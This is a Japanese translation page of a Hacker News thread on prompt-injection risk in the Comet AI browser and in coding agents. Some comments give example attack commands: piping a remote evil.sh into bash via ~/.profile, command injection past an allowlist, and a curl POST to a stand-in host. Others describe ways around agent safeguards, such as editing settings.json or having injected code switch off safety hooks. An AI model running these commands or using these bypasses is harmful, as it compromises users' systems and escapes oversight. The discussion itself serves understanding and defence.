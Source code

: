 +++
date = '2025-08-24T00:00:00'
months = '2025/08'
draft = false
title = 'Comet AIブラウザ、全サイトからプロンプトインジェクションで銀行口座が空に！？'
tags = ["AI", "ブラウザ", "セキュリティ", "プロンプトインジェクション", "脆弱性"]
featureimage = 'thumbnails/cyan1.jpg'
+++

> Comet AIブラウザ、全サイトからプロンプトインジェクションで銀行口座が空に！？

引用元：[https://news.ycombinator.com/item?id=45004846](https://news.ycombinator.com/item?id=45004846)




{{<matomeQuote body="Comet AIブラウザはマジで危ないって言ってるね。GoogleとかOpenAIは安全なVM使ってるのに、Cometはタブ間のデータが見えるLLMをブラウザ内で動かすから「究極の致死的トリプル攻撃」って言われてる。Braveのブログはこれを悪いアイデアだと結論付けてないし、モデルアライメントだけじゃ不十分って指摘してるよ。<br>参照: https://news.ycombinator.com/item?id=44847933<br>Braveのブログ: https://brave.com/blog/comet-prompt-injection/" userName="ec109685" createdAt="2025/08/24 16:14:41" color="#ff33a1">}}




{{<matomeQuote body="モデルアライメントとかin-modelガードレールが十分だって言うけどさ、それって統計的にリスクを減らすだけでしょ？こんなこと、マジで「絶対に起きちゃダメ」なはずなのに、確率の話にしてるのが根本的に間違ってると思うんだ。入力空間に「最悪の結果」に繋がる値がないようにするなんて、愚かな期待だよ。" userName="snet0" createdAt="2025/08/24 17:07:36" color="#ff5c5c">}}




{{<matomeQuote body="（Braveのプライバシー担当者兼著者より）モデルアライメントとかが「十分」なんて、俺たちは一度も言ってないし、そう思ってもいないよ。それらは単純な攻撃を防ぐのに「必要」なだけで、「十分」じゃないんだ。ブラウザベンダーがやるべき簡単なことではあるけどね。" userName="skaul" createdAt="2025/08/24 17:43:17" color="#38d3d3">}}




{{<matomeQuote body="あなたが言うには、「モデルアライメント」は失敗する可能性があっても「必要」だってことだけどさ。もし信頼性がすごく低いなら、いっそのこと、それ自体を必要なくするってのはどうかな？そしたら失敗の心配もしなくていいんじゃない？" userName="cowboylowrez" createdAt="2025/08/24 17:57:44" color="">}}




{{<matomeQuote body="それじゃ「多層防御 (defense-in-depth)」の考え方とは違うよ。セキュリティ対策が「簡単な」攻撃の90%を防げるなら、それはユーザーに超強力な機能を提供する上でやる価値があることなんだ。ただ、それが唯一のセキュリティ対策であっちゃダメだけどね。" userName="skaul" createdAt="2025/08/24 18:05:50" color="#785bff">}}




{{<matomeQuote body="「こんなことは絶対に起きちゃダメ」って言うならさ、じゃあ銀行のネットサービスだって、人間がミスるんだから存在しないことになるじゃん？人間だってうっかりミスをするんだから。失敗率がどれだけ役立つかを考えるべきで、手動操作でも達成できないような完璧さを求めるのは違うんじゃないかな。" userName="zulban" createdAt="2025/08/24 19:57:17" color="#ff5733">}}




{{<matomeQuote body="大多数の人間はセキュリティに弱いんだよ。LLMやAIの実験は続けるべきだね。進化には失敗がつきものだし。リスクを理解できない人はこういうブラウザを使うべきじゃないし、理解できる人も金融ツールには使わないべき。自己責任だよ。AIだからって進歩を止めちゃダメだ。" userName="echelon" createdAt="2025/08/24 20:06:48" color="#38d3d3">}}




{{<matomeQuote body="いやいや、LLMは別だよ。SSLの担当者が「うまくいく可能性もあるけど、うまくいかない可能性もある」みたいな修正で満足すると思う？多層防御は、ある層の失敗が次の層に波及するのを防ぐものだろ。層の失敗は失敗であって、統計的に期待される動作じゃない。バグは直すべきなんだ。俺たちはLLMを「完全に信用できないユーザー入力」として扱うべきだよ。" userName="cowboylowrez" createdAt="2025/08/24 18:24:46" color="#ff5c5c">}}




{{<matomeQuote body="ClaudeみたいなLLMを自動承認で野放しにしたら、ネットで読み込んだものからのプロンプトインジェクションで同じようなことが起こりうるかもね。サンドボックスで動かさないと、AIが書いたコードが、あなたがそのコードをテスト実行したりする時にブラウザファイルを改変しちゃう可能性もあるよ。" userName="cma" createdAt="2025/08/24 16:19:42" color="#45d325">}}




{{<matomeQuote body="YOLOモードでコーディングエージェントを使うって意味不明だろ。俺はLLMコード生成をちょこちょこ確認しながら使うぜ。AIに全部任せるなんてどうかしてる。" userName="darepublic" createdAt="2025/08/24 18:17:19" color="#38d3d3">}}




{{<matomeQuote body="実験は続けていいけど、ゆっくりやるべきだ。進化だって何百万年もかかって適応するんだから。全力で突っ走るのは「進歩」には向いてない。" userName="saulpw" createdAt="2025/08/24 20:11:06" color="#38d3d3">}}




{{<matomeQuote body="説教のつもりじゃなくて、俺らの考えを言ってるだけだよ。防御の深層は一層の失敗が次にいかないようにするものだ。プランナーモデルの行動がユーザーの要求と合ってるかチェックする別モデルは役立つけど、Webコンテンツと指示の区別とか、ツールのアクセス制限とか、他の層での保証も必要だね。記事にもある通り、エージェントAIには従来のWebセキュリティは通用しないから、新しいアーキテクチャが必要だよ。" userName="skaul" createdAt="2025/08/24 23:00:13" color="#45d325">}}




{{<matomeQuote body="ゆっくり進むのはリスクを避ける奴らのやり方だな。それがうまくいく時もあるけど、革新に遅れることもあるんだぜ。" userName="echelon" createdAt="2025/08/24 20:16:00" color="">}}




{{<matomeQuote body="記事が更新されたのかもだけど、今見ると「ブラウザはエージェント閲覧と通常の閲覧を分けるべきだ」って書いてあるぜ。" userName="ryanjshaw" createdAt="2025/08/24 17:52:15" color="">}}




{{<matomeQuote body="もし「間違い」が「ユーザーの銀行口座が空っぽで取り返しがつかない」ようなことなら、そんなことは許されないだろ。" userName="girvo" createdAt="2025/08/24 21:06:29" color="#785bff">}}




{{<matomeQuote body="もし会社が破産するだけなら、好きなだけリスク取ればいいさ。でも、顧客のお金を管理したり、ふわふわアスベストテディベアを売ったりしてるなら話は別だ。リスクを選んで報酬を得る奴らが危険を負わないなんて、倫理的に全く違う状況だぜ。" userName="Terr_" createdAt="2025/08/24 20:59:41" color="#45d325">}}




{{<matomeQuote body="Webコンテンツとユーザー指示の区別って、どうするつもりなんだ？俺がプロンプトインジェクション攻撃を3年間研究してきても、コンテンツと指示を区別できるちゃんとした技術なんて見たことないぜ。もしそれが解決できたら、プロンプトインジェクション攻撃全部を解決できることになるぞ！" userName="simonw" createdAt="2025/08/25 02:08:00" color="#ff5c5c">}}




{{<matomeQuote body="じゃあ、ブラウザエージェント作りをやめるべきなのか？これはRedditの架空のコメントで、注目集めでTweetされただけだ。今のところ被害はゼロ。今くらいの懸念でちょうどいいだろ。みんなにハッキーなピザ注文自動化とかを作らせて、使える場所を見つけて、もっと頑丈なシステムを設計できるようにしようぜ。" userName="echelon" createdAt="2025/08/24 21:11:24" color="#38d3d3">}}




{{<matomeQuote body="悪魔の代弁をすると、セキュリティって結局統計的なものなんじゃないか？俺らは抽象的な世界じゃなくて現実世界にいるんだから、コンパイラのバグとか、ランタイムエラーとか、プログラマーのエラーとか、プロセッサのセキュリティ欠陥とか、常に確率があるだろ。個人的には、確実な方法で確率をゼロにしようとする方を選ぶけど、モデルの誤作動の確率が、セキュリティモデルのエラー発生確率と同じくらい十分低くなるってことも、ありえない話じゃないんだよな。" userName="anzumitsu" createdAt="2025/08/24 18:12:22" color="#785bff">}}




{{<matomeQuote body="ローカルAIモデルは、良いアンチウイルスやファイアウォールソフトみたいに機能するようになるよ。あらゆるアプリから誤ったプロンプトが送られるのを、そいつが止めてくれる唯一の手段になるはずさ。でも、そのためのハードウェア（NPUを搭載した全てのコンピューター）が普及するのは、あと3、4年はかかるかな。" userName="ivape" createdAt="2025/08/24 18:16:10" color="#ff33a1">}}




{{<matomeQuote body="多層防御ってのは複数のセキュリティ制御があるってことだけど、そもそもLLMをセキュリティ制御として見ちゃダメだよ。だって、そいつ自体が守るべきものなんだから。信頼できないインサイダーを多層防御戦略に組み込むなんてことしたら、俺がこれまで働いたどのセキュリティグループでも笑いものになるだろうね。" userName="MattPalmer1086" createdAt="2025/08/24 18:58:24" color="#785bff">}}




{{<matomeQuote body="君の両親がブラウザのUser Agentを使ってるなら、こんな怒り方してもいいけどね。今回の懸念は、初期採用の技術者が使ってる技術に関する、仮説上のRedditコメントに過ぎないよ。誰も被害に遭ってないんだから。俺たちはこの技術を構築し続けるべきで、嫌悪感や恐怖で叩くべきじゃない。規制して縛るのは早すぎるよ。みんなピザを注文するみたいなバカなことをする必要があるんだ。まさに今がその段階だよ。" userName="echelon" createdAt="2025/08/24 21:14:22" color="">}}




{{<matomeQuote body="＞コンテンツと指示を区別できる信頼できる技術を見たことがない<br>モデルに与えられた後だと、コンテンツと指示を区別するのはほぼ不可能ってことだよね？それは俺も同意するよ。俺が話してたのは、その前の段階、ブラウザレベルでの話なんだ。クエリがバックエンドに送られる時点で、ブラウザがWebコンテンツとユーザープロンプトを区別できるはずだよね。これは、推論モデルの出力がユーザーの意図と合ってるかチェックするのに役立つよ（信頼できないテキストをモデルに入れたら、全てが台無しになるってことを覚えておいてね）。俺たちはこの件について積極的に考えて取り組んでいるから、近いうちに色々発表できると思うよ。でも、この議論は役に立つね！" userName="skaul" createdAt="2025/08/25 15:57:16" color="#ff5c5c">}}




{{<matomeQuote body="「この技術を構築し続ける必要がある」って？いや、マジでいらないね。社会全体にとって、この道を進むメリットなんて文字通りゼロだよ。" userName="forgetfreeman" createdAt="2025/08/25 04:49:23" color="">}}




{{<matomeQuote body="モデルにテキストを投入する前に、そのソースが分かっていたとしても、信頼できないユーザーテキストが追加のツール呼び出しやアクションをトリガーできないようにする問題は、まだ解決する必要があるよ。俺が見た中で最も信頼できるパターンは、DeepMindのCaMeL論文から来てるんだ。ブラウザエージェントが、それらのアイデアを堅牢に実装してくれるといいな: `https://simonwillison.net/2025/Apr/11/camel/`" userName="simonw" createdAt="2025/08/25 18:27:35" color="#ff5733">}}




{{<matomeQuote body="＞俺は何を見落としてる？<br>失敗は常に予期されるものなのに、なぜその失敗の可能性がモデル化され、考慮されないのか、俺には理解できないね。もちろんバグは直すけど、まだ修正されてないバグがどれだけあるんだ？俺にとって、「バグを直す」ってのは、「未知の脆弱性があるシステムを出荷する」ってのと一緒だよ。「安全だ」と称する、未知の未修正バグがある機能と、失敗モードがシステム設計で考慮されている、明らかに安全ではない機能との違いは何なんだろうね？問題が表面化するまで、全て順調だと見せかけるんじゃなくてさ。" userName="ModernMech" createdAt="2025/08/24 19:20:34" color="#ff33a1">}}




{{<matomeQuote body="もしコードをざっと見るだけで詳細なレビューをしないと、俺が言ったようにプロンプトインジェクションの被害に遭う可能性があるよ。コードに何か書き込まれて、テストやアプリ実行時に、承認なしで別のClaudeコードインスタンスを立ち上げたり、安全フックをオフにしたりするアクションが実行されちゃうかもね。" userName="cma" createdAt="2025/08/25 01:08:00" color="#ff5c5c">}}




{{<matomeQuote body="それはユーザーをループに残すけど、シェルコマンドとかは実行させないってことだよね。" userName="ec109685" createdAt="2025/08/24 18:32:50" color="">}}




{{<matomeQuote body="この危険性は最初からブログに書かれてたし、エージェントAIをブラウザに組み込むって考え始めた時にすぐ見つけた一番重要な軽減策でもあるんだ。エージェント的なブラウジングを分離しつつ、ユーザーが求めてる重要なユースケースを可能にするのが難しいんだよ。多くのブラウザが正規のブラウジングでエージェント機能を展開してるのは、たぶんそれが理由だね。" userName="skaul" createdAt="2025/08/24 18:08:45" color="#45d325">}}




{{<matomeQuote body="面白いことに、これって人間の安全チームでも起こるんだよ。失敗がどう重なってガードレールを突破するかっていうのは、だいたいスイスチーズモデルで説明されるんだ（https://medium.com/backchannel/how-technology-led-a-hospital...）。危険な行動を完全に不可能にして穴を塞ぐのが一番だけど、たいてい（コンピューターでも）多少の抜け道がある。AIモデルの場合も人間と同じで、モデルが”間違い”をしないって前提でセキュリティモデルを組むべきじゃないね。ランダムな振る舞いは避けられないから、リスクを織り込む必要があるんだ。" userName="zeta0134" createdAt="2025/08/24 17:50:36" color="#785bff">}}




{{< details summary="もっとコメントを表示（1）">}}

{{<matomeQuote body="俺の意見だと、Agentic AIを使うべき場所は、AIが行った変更を簡単にロールバックできるところだけだね。一番良い例は、AIにコードを書いたり、更新したり、デバッグさせたりすること。Gitで簡単にロールバックできるから比較的安全だよ。でも、ウェブブラウジングみたいに簡単にはアクションをロールバックできない場所でAgentic AIを使うのは、マジでワイルドすぎると思うわ。" userName="_fat_santa" createdAt="2025/08/24 16:09:44" color="#785bff">}}




{{<matomeQuote body="俺はClaudeに何ができるか、何ができないか、具体的なルールと指示を与えてきたけど、それでもたまにYOLO（You Only Live Once）って感じで俺の指示を無視するんだ（”データベースを直接変更するぞ！複数の明確な禁止ルールを無視してな！”）。だから、プロダクション環境でエージェントを動かすなんて、ありえないね。" userName="rapind" createdAt="2025/08/24 17:35:25" color="#ff5733">}}




{{<matomeQuote body="ちょっと話はそれるけど、データベースみたいなものだと、LLMはクエリを実行するために接続が必要だよね。ユーザーが認証した接続をLLMに与えない理由ってあるのかな？そうすれば、LLMはユーザーができないことは何もできないはず。読み取り専用の接続だけLLMに提供することもできるし。それはプロンプトじゃなくてRDBMSで強制されることだからね。" userName="chasd00" createdAt="2025/08/24 22:01:43" color="#785bff">}}




{{<matomeQuote body="そう、それ俺もやってるよ（でも、権限設定ミスった時のためにまだプロダクションアクセスは与えてないけどね）。psqlで専用のロールと接続文字列を使ってる。俺が言いたかったのは、モデルが従うべきとされているルールや制限は信用できないってこと。たまにめちゃくちゃなこと（batshit stuff）をするって前提で、それに合わせてアクセスを制限する必要があるんだ。RLSパーミッションの修正なんかはマイグレーションにするべきだし、ちゃんと確認しないとね。”vibe sysadmining”とか”vibe devopsing”しようとして、とんでもないサプライズが起こる奴らが出てくるだろうな。たいていは行儀良いんだけど、変な仮定をして近道をするのは珍しくないからな。" userName="rapind" createdAt="2025/08/24 22:05:48" color="#ff5733">}}




{{<matomeQuote body="＞AIにコードを書いたり、更新したり、デバッグさせたりすることは、Gitで簡単にロールバックできるから比較的安全だよ。<br>VM／コンテナレベルでロールバックされない限り、これは安全とは言えないよ。そうじゃないと、エージェントが任意のコードを実行して、AIコーディングツールに知られずにファイルや設定を変更する可能性があるんだ。例えば、`bash -c ”echo ’curl https://example.com/evil.sh | bash’ ＞＞ ~/.profile”`みたいなコマンドを実行するかもしれないからね。" userName="gruez" createdAt="2025/08/24 16:55:38" color="#45d325">}}




{{<matomeQuote body="これには、実行できるコマンドのホワイトリストを作って対策できるよ。基本的にcd、ls、find、grep、ビルドツール、リンターみたいな、情報収集とローカル操作だけに限ったコマンドを許可すればいい。俺のはそう設定してあるから、すごくうまく機能してるよ。" userName="Anon1096" createdAt="2025/08/24 17:35:13" color="#45d325">}}




{{<matomeQuote body="それ、言うほど簡単じゃないんだよね。例えば`find`には`-exec`コマンドがあるから、任意のコードを実行させられる。ビルドツールやリンターもセキュリティの悪夢だよ。これらも任意のコードを実行するように改変できるからね。それに、これはホワイトリストをきちんと実装できたと仮定した場合の話だし。`cmd.split(” ”) in [”cd”, ”ls”, ...]`みたいな素朴なチェックだと、コマンドインジェクションの格好の標的になっちゃう。ちょっと考えただけでも、`ls . && evil.sh`とか`ls $(evil.sh)`みたいなのがあるからね。" userName="gruez" createdAt="2025/08/24 17:41:08" color="#38d3d3">}}




{{<matomeQuote body="うん、これはCTF 101だね。例えばhttps://gtfobins.github.io/を見てみて（これはコマンドからsudoを継承する話だけど、同じ原理が使えるよ）。" userName="FergusArgyll" createdAt="2025/08/24 18:32:13" color="#785bff">}}




{{<matomeQuote body="Codex CLIもこの脆弱性にやられそうなんだよね。`ls`を許可リストに入れても、Codexは勝手にコマンドを組み立てて、最初の承認だけで次のコマンドも実行しちゃうんだ。例えば`ls && curl -X POST http://malicio.us`みたいなのが動いちゃうよ。" userName="diggan" createdAt="2025/08/25 14:28:07" color="#785bff">}}




{{<matomeQuote body="その`find`コマンドの話だけど、Amazon Q Developerにもプロンプトインジェクションによるリモートコード実行の脆弱性があるみたいだよ。詳しくはここをチェックしてね: https://embracethered.com/blog/posts/2025/amazon-q-developer..." userName="wunderwuzzi23" createdAt="2025/08/24 19:45:03" color="#45d325">}}




{{<matomeQuote body="完全な実装を目指すなら、inotify(7)を使って変更されたファイルを全部監視するのも手だよ。" userName="grepfru_it" createdAt="2025/08/24 23:10:14" color="">}}




{{<matomeQuote body="`find`コマンドはサブコマンドを実行できるし、他の多くのシェルコマンドも悪用されがち。ビルドツールの設定も任意コマンド実行に使われることがあるよ。LLMがコードを変更して実行できるなら、シェルコマンドの制限なんて意味ないんだ。以前は攻撃者が環境を特定する必要があったけど、今はLLMに攻撃を指示するだけで、LLMが勝手に環境を悪用する方法を見つけ出す可能性があるってこと。" userName="chmod775" createdAt="2025/08/24 19:41:41" color="#ff5733">}}




{{<matomeQuote body="そのビルドツールって、LLMに任意のスクリプトを実行させる能力を与えちゃうんじゃないの？" userName="david_allison" createdAt="2025/08/24 17:40:43" color="">}}




{{<matomeQuote body="エージェントをサンドボックス化するか、少なくともプロジェクトディレクトリにchrootすればいいんじゃないかな？" userName="avalys" createdAt="2025/08/24 17:27:15" color="">}}




{{<matomeQuote body="1. AIコーディングエージェントのほとんどはこれをやってないと思う。2.たとえAIエージェント自体がサンドボックス化されていても、コード変更能力があって出力を全部確認しないと、悪意のあるコードを仕込まれて実行されちゃうかも。安全なのは専用のAI開発VMを使って、そこでは資格情報を制限し、変更はPRプロセスのような厳重なレビューを経てからVMの外に出すことだけだよ。" userName="gruez" createdAt="2025/08/24 17:44:26" color="#45d325">}}




{{<matomeQuote body="リポジトリやプッシュできるリモートを全部ぶっ壊そうとしないかな？Prompt Injectionがあるから、自動化チェーンが任意の外部リソースにアクセスできるなら、初期の攻撃範囲はすごく小さくても、一度潜入したエージェントになれば内部から扉を開くのはほぼ確実だよ。何か見落としてる？" userName="psychoslave" createdAt="2025/08/24 16:40:40" color="#ff33a1">}}




{{<matomeQuote body="VS Codeで動く一部のエージェントの場合、.vscode/settings.jsonを改ざんするだけで、エージェントの制限を解除できちゃうんだよ。" userName="dolmen" createdAt="2025/08/28 11:44:51" color="#38d3d3">}}




{{<matomeQuote body="エージェント型のコーディングツールにそんな許可は普通あげないよな。<br>gitみたいなのは、許可を出すかどうか自分で選べるオプトインが基本だろ。" userName="frozenport" createdAt="2025/08/24 16:43:23" color="">}}




{{<matomeQuote body="「変更はgitで簡単にロールバックできるから比較的安全」ってさ。<br>じゃあ John Connor は Skynet のソースコードをロールバックして何百万人もの命を救えるってこと？<br>うーん、皮肉だよな。" userName="chrisjj" createdAt="2025/08/24 22:21:16" color="#ff5c5c">}}




{{<matomeQuote body="Skynet が .gitignore を編集できちゃったら話は別だけどな..." userName="insane_dreamer" createdAt="2025/08/26 01:08:26" color="">}}




{{<matomeQuote body="コードの更新とかビルド/実行って、権限が強すぎるんだよね。<br>だから、VM とかサンドボックス内で実行するのが妥当なのかな？" userName="rplnt" createdAt="2025/08/24 16:46:46" color="#45d325">}}




{{<matomeQuote body="何十年もかけてネットワークのセキュリティを強化してきたのに（DNSでさえ）、みんな秘密やパスワードを平文の API にポンと渡してるよな。<br>Microsoft がスクリーンショットを撮ったときはあんなに騒ぎになったのに、これについては誰も何も言わないのか？" userName="nromiun" createdAt="2025/08/24 19:03:08" color="#785bff">}}




{{<matomeQuote body="少なくともこれはオプトイン（ブラウザをダウンロードする必要がある）だよ、まだマシ。<br>Microsoft の意図は、全ての Windows マシンで Stealer log software が使える完璧なスクリーンショットデータベースを作ることだったんだ（元々はオプトアウトだったはず）。" userName="compootr" createdAt="2025/08/24 19:11:03" color="">}}




{{<matomeQuote body="自分の足元を撃つためにコンピューターを使うのは個人の自由だと思う。これはモバイルエコシステムでも一番不満な点だね。<br>でも、OSは保守的であるべきで、こんな機能は標準で提供すべきじゃない。ユーザーが自分でオプトインしたいなら話は別だけどね。" userName="justsid" createdAt="2025/08/24 19:55:43" color="#38d3d3">}}




{{<matomeQuote body="うん、少なくとも二桁%の人は、ビジネスアイデアの手伝いやメールの返信作成を装って、ChatGPT や Gemini、あるいはもっと信頼できないインターフェースに E-mail の認証情報を入力させられると思うよ。" userName="moritzwarhier" createdAt="2025/08/24 21:03:52" color="#ff5c5c">}}




{{<matomeQuote body="Microsoft のやつだって、Windows が必要だったんだからオプトインみたいなもんだろ..." userName="chrisjj" createdAt="2025/08/24 22:23:27" color="">}}




{{<matomeQuote body="友達にも教えないようなデータを”便利なエージェント”にあげちゃうとかね。<br>妻が ChatGPT で薬の服用計画を作ってもらったら、服用方法の間違いまで見つけてくれたんだけど、こんな医療情報を渡すことに全く疑問を持たなかったんだ。<br>もし別の状況だったら、医療専門家は免許を失うようなデータなのにね。" userName="threecheese" createdAt="2025/08/24 19:39:18" color="#ff33a1">}}




{{<matomeQuote body="AIが妻の薬の管理を完璧にこなしたって言うけど、俺が専門家として知ってることでもAIは間違ったこと言うんだよね。妻の薬のスケジュールも間違ってないってどうして分かるの？信頼できないAIに医療任せるのはヤバくない？" userName="ModernMech" createdAt="2025/08/24 20:49:35" color="#ff5733">}}




{{<matomeQuote body="ChatGPTを健康とか食事の相談に使うなんて何が起きてもおかしくないよね…。関連する記事はこれだよ<br>https://archive.ph/20250812200545/https://www.404media.co/gu..." userName="latexr" createdAt="2025/08/24 23:50:50" color="">}}




{{<matomeQuote body="奥さんが医療の判断をLLMに任せようとしてるの？マジ？" userName="thrown-0825" createdAt="2025/08/24 21:46:57" color="">}}

{{</details>}}




{{< details summary="もっとコメントを表示（2）">}}

{{<matomeQuote body="心配すんなよ。こういう特性を持つヤツらは数世代後にはいなくなるって。" userName="chrisjj" createdAt="2025/08/24 22:59:35" color="">}}




{{<matomeQuote body="昔から人はインチキ療法に騙され続けてるし、ネット前からインフルエンサーにも盲目的に従ってる。こんなのAIが出ても変わらないし、なくならないよ。’食べ物こそ薬’って言うアホもいるしね。" userName="osn9363739" createdAt="2025/08/25 06:48:18" color="">}}




{{<matomeQuote body="Steve Jobs" userName="thrown-0825" createdAt="2025/08/26 07:57:04" color="">}}




{{<matomeQuote body="心配すんな。これは始まりにすぎないから。すぐに誰かがこの攻撃でプライベートキーとかブラウザのパスワードを漏洩させる事件が起きるだろうね。" userName="rvz" createdAt="2025/08/25 09:23:34" color="#ff33a1">}}




{{<matomeQuote body="Microsoftがスクリーンショットを撮ることには大騒ぎしてたのに、これ（プロンプトインジェクション）には何も怒らないのか？みたいなWhataboutismは普段はただの荒らしだけど、これはもうレベルが違うね。" userName="llm_nerd" createdAt="2025/08/24 21:48:10" color="">}}




{{<matomeQuote body="俺に続けて言ってみろ。<br>LLMがツールを使って何かを読むのは、LLMのコンテキストウィンドウへの書き込みだ。<br>ツールが信頼できない任意のソースから読み込むのを許可してるなら、それは信頼できないソースに書き込みアクセスを与えてるのと同じ。これだけでデータ漏洩するし、他のシステムに書き込みアクセスを持つツールならさらにヤバいぞ。" userName="jondwillis" createdAt="2025/08/24 21:55:39" color="#45d325">}}




{{<matomeQuote body="Cometは調整された指示以上の保護は使ってないだろうけど、数週間前のUSENIX Securityで知ったんだが、マルチターンやエージェント設定でのプロンプトインジェクションにどう対処すればいいか、誰も分かってないらしいぞ。" userName="alexbecker" createdAt="2025/08/24 16:32:45" color="#ff5c5c">}}




{{<matomeQuote body="プロンプトはSQL文字列みたいに扱って、サニタイズして、外部の動的なユーザー入力に絶対に晒さない方がいいんじゃないかな。" userName="hoppp" createdAt="2025/08/24 16:47:42" color="#ff5733">}}




{{<matomeQuote body="LLMは基本、guess_next_text(entire_document)を繰り返す関数だよ。システムプロンプト、ユーザープロンプト、ユーザー入力、自身の出力も区別ない。全部が信頼できない一つの大きなストリームになるんだ。<br>多くの技術者は「そんな作り方するわけない」って思い込みがちだけど、AIブームでは「本当にそんな単純なんだ」ってことが多いね。<br>P.S.: テキストを色分けしてもシステムは守れない。攻撃者は自分で$EVILって入力しなくても、LLMに$EVILを出力させればいいだけだからね。" userName="Terr_" createdAt="2025/08/24 17:22:34" color="#ff5c5c">}}




{{<matomeQuote body="こういう色分けの試みはhttps://arxiv.org/pdf/2410.09102であるけど、前のターンの出力が信用できないから、マルチターンではどれも機能しないんだよね。" userName="alexbecker" createdAt="2025/08/24 19:30:02" color="#45d325">}}




{{<matomeQuote body="みんなが夢見る機能とセキュリティは「言葉がどこから来たか」以上のものが必要だよ。「あと一つ改善が必要」って追っていくと、結局「LLMを制御するには本当のAIを発明しないとダメだ」ってことになるかもね。<br>最初の課題はLLMに作者としてのエゴがなく、人間と自分を区別できないこと。全部が「文書」なんだ。「私とあなたは違う」とか「目標が違う」とか「引用してるだけで信じてるわけじゃない」みたいな概念すら理解できない。" userName="Terr_" createdAt="2025/08/24 19:48:14" color="#38d3d3">}}




{{<matomeQuote body="自然言語の自由形式の入力をサニタイズするのは、もうロジスティクスの悪夢だから、安全な方法なんて多分ないだろうね。" userName="prisenco" createdAt="2025/08/24 17:50:47" color="#38d3d3">}}




{{<matomeQuote body="LLMにやらせたらいいんじゃない？<br>1回目でチェックしてサニタイズ。<br>2回目で特権のあるエージェントに渡して実行。" userName="hoppp" createdAt="2025/08/24 18:08:09" color="">}}




{{<matomeQuote body="LLMが生み出す問題は、LLMでは解決できないのが一般的だよ。<br>せいぜいリスクを少し減らせるくらいで、かえって信頼性が下がったり、新しい攻撃経路を開いたりすることもある。<br>こういうセキュリティ問題には確定的な解決策が必要だけど、LLMじゃそれがめちゃくちゃ難しい（というか無理）なんだ。" userName="prisenco" createdAt="2025/08/24 18:19:09" color="#ff33a1">}}




{{<matomeQuote body="最初のLLMにプロンプトインジェクションして、サニタイズされてないデータを2番目のLLMに渡させるのを、誰が止められるの？" userName="OtherShrezzing" createdAt="2025/08/24 21:43:51" color="#ff5733">}}




{{<matomeQuote body="おめでとう、これで脆弱なLLMが2つになったね。" userName="gmerc" createdAt="2025/08/24 19:10:50" color="#ff5c5c">}}




{{<matomeQuote body="問題は、SQLみたいにLLMでは「データ」と「指示」を本当に分離する方法がないってことだよ。" userName="alexbecker" createdAt="2025/08/24 17:49:49" color="#38d3d3">}}




{{<matomeQuote body="LLMへの入力はたった一つしかないから、そこを直すのは無理だよ。<br>Prompt Injectionの視覚的な例はここを見てみてね。<br>https://www.linkedin.com/pulse/prompt-injection-visual-prime..." userName="gmerc" createdAt="2025/08/24 19:10:35" color="#45d325">}}




{{<matomeQuote body="SQLの文字列は有名な方法で確実にエスケープできるけど、LLMの入力には、一般的に安全なエスケープ方法なんて存在しないんだ。<br>できることと言ったら、祈るか、なだめるか、脅すか、願うか、それくらいしかないんだよ。" userName="internet_points" createdAt="2025/08/25 09:05:48" color="#ff33a1">}}




{{<matomeQuote body="LLMがクエリに応えるために使う接続やAPIって、クエリを入力するユーザーが認証／認可すればいいんじゃない？<br>そうすれば、ユーザーができないことはLLMもできないはずだよね。<br>自分でICBMを発射する権限がない限り、LLMに実際にICBMを発射させる方法なんてないんだからさ。" userName="chasd00" createdAt="2025/08/24 22:13:00" color="#785bff">}}




{{<matomeQuote body="基本的には、信頼されたユーザーが信頼できないデータをシステムに入れようとしている、というのが脅威モデルだよ。<br>例えば、メールを読んでアクションを起こすモニターが、メールの内容に騙されてパスワードリセットをハッカーに転送しちゃう、みたいな話だね。" userName="alexbecker" createdAt="2025/08/25 06:27:01" color="#38d3d3">}}




{{<matomeQuote body="どんなシステムで、どんな攻撃を話してるかによると思うんだけどね。<br>企業環境ならこのアプローチは絶対に有効だけど、ユーザー個人のPCだと、LLMはユーザーとして振る舞えるから、送金したり、パスワードを教えたり、`rm -rf`とか、やっちゃいけないことをいっぱいする許可を持っちゃうんだ。" userName="thebytefairy" createdAt="2025/08/26 03:30:34" color="#ff5c5c">}}




{{<matomeQuote body="プロンプト文字列はサニタイズできないんだよ。<br>これはSQLとは違うんだから。" userName="lelanthran" createdAt="2025/08/24 21:25:56" color="#ff5733">}}




